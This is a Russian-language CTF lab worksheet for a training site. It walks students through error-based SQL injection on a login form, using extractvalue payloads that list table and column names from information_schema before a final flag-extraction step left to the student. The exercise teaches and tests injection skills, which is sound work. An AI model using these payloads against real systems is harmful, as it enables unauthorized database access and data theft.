

# Уязвимости 4 практика часть 1

**Сайт:** [http://errsql.myctf.ru](http://errsql.myctf.ru)

**Requirements:** Firefox + hackbar plugin

Данный сайт является примером эксплуатации уязвимости типа error-based.

Уязвимый код:



Какой вид sql инъекции можно использовать на этом сайте?

## 1) Пробуем авторизоваться, подставив в любое поле кaвычку (`'`), в результате чего получаем ошибку

## 2) Получаем список таблиц в текущей базе

```shellsession
login=admin' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) -- 123
```

- Какой результат вы получили?
- Какой запрос вы предположительно получили?
- Разберите построчно, что именно вы сделали?

## 3) Получаем названия столбцов в найденной таблице

```shellsession
login=admin' and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='XXXXX' limit 0,1))) -- 123
```

- Какой результат вы получили?

## 4) Достаем флаг

Самостоятельно введите команду, которая выведет все значения из полученных в пунктах 2,3 базы данных и таблицы.

Какой флаг вы получили? ___________________